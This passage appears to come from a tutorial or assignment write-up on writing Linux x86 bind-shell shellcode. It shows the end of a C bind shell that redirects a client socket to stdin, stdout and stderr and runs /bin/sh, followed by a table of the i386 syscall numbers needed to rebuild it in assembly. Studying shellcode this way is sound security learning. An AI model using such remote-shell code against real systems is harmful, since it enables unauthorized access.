 ```c
  dup2(clientfd, 0); // stdin
  dup2(clientfd, 1); // stdout
  dup2(clientfd, 2); // stderr


  // EXECVE SHELL
  // Execute the new program /bin/sh, which will now use the client socket to
  //  handle it's stdin, stdout, and stderr
  execve("/bin/sh", NULL, NULL);


  // EXIT
  // This will never happen because execve closes out for us.
  return 0;
}
```

Running this through libemu was not very fruitful, and getting it to work would be slightly out of scope (and unnecessary) for this assignment. So, we'll move on to doing some research on how to make all of these same function calls in assembly.  


## Initial Research

#### Syscalls

We need to know how to make the following system calls based on our C code above:
```
socket
bind
listen
accept
dup2
execve
```

To find the syscall numbers, we'll look in the `unistd_32.h` header file located, on my system, at `/usr/include/i386-linux-gnu/asm/unistd_32.h`. Upon searching through this file, we now have a table we can use to call any function we'll need for this assignment.


**_Syscall Numbers_**

| Function  | Decimal   | Hex       |
| --------  | --------- | --------- |
| socket    | 359       | 0x167     |
| bind      | 361       | 0x169     |
| listen    | 363       | 0x16b     |
| accept4 | 364       | 0x16c     |
| dup2      | 63        | 0x3f      |
| execve    | 11        | 0xb       |
